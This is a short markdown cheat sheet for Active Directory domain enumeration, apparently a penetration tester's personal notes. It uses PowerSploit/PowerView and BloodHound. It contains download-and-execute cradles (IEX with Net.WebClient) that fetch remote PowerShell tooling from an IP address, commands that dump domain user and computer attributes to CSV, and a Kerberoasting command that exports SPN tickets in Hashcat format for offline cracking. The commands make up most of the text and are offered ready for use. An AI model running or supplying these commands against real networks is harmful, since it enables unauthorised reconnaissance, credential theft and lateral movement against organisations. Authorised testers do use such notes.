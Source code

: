 ```yaml
---
description: This is just a living document of things I have needed for domain enumeration
---
```


# Domain Enumeration

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev)

`IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Domain Users

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-CSV users.csv`

### Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

## BLOODHOUND

### Ingestor Launch

```text
IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.123/ps/SharpHound.ps1');
Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing;
```

## 

